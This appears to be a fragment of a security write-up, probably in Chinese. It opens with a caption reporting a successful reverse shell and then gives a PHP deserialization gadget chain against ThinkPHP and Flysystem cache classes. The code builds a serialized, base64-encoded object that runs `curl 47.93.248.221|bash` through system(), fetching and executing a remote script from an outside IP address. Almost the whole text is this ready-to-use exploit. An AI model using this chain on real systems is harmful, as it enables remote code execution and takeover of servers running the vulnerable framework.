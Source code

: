 成功反弹shell

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "`curl 47.93.248.221|bash`";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => true,
            'prefix'        => '',
            'path'          => '',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['system'],
        ];
    }
}
```
